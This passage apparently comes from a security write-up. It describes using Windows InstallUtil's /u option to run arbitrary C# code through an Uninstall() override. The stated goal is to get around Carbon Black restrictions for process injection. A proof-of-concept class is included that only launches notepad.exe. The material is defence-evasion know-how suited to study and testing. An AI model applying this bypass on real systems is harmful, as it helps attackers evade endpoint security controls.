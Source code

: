 # The Story So Far
We can't run exes. We can't load DLLs. We can't use VBScript or JScript. We can't use PowerShell to import Windows functions. Fortunately, there is one avenue left to explore that may allow us import and call the Windows APIs above needed to inject code.

<br/>
<hr/>

# InstallUtil
`InstallUtil` is a Windows base application that is used for installing and uninstalling software. The only functionality we care about is its `/u` option which is used to uninstall applications.

When applications are built in C#, developers have the ability to add in two special functions: `Install()` and `Uninstall()`. These functions are never called internally, but instead are used to perform any initialization needed when installing, and any cleanup needed when uninstalling. We will focus on `Uninstall()` because it does not require administrator privileges.

We are not concerned with any actual install/uninstall stuff - the only reason this is useful is because it should let us run arbitrary C# code to perform the process injection. Even though we can't run our exe, we can still put code in its `Uninstall()` function and then use `installutil /u myapp.exe` to force Windows to call it for us, bypassing Carbon Black's restrictions.

<br/>
<hr/>

# PoC #1

```csharp
using System;
using System.Collections;
using System.Diagnostics;
using System.Configuration.Install;
using System.IO;
using System.Runtime.InteropServices;

namespace IU
{
    internal class Program
    {
        static void Main(string[] args)
        {
            // empty Main - never called
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Bypass : System.Configuration.Install.Installer
    {
        // Uninstall() gets called by InstallUtil when /u is specified
        public override void Uninstall(IDictionary savedState)
        {
            // Spawn notepad.exe
            Process p = new Process();
            p.StartInfo.FileName = "c:\\windows\\system32\\notepad.exe";
            p.StartInfo.CreateNoWindow = false;
            p.Start();
        }
    }
}
```
<p style="text-align: center; font-size: 12px;">PoC that successfully launches notepad.exe</p>
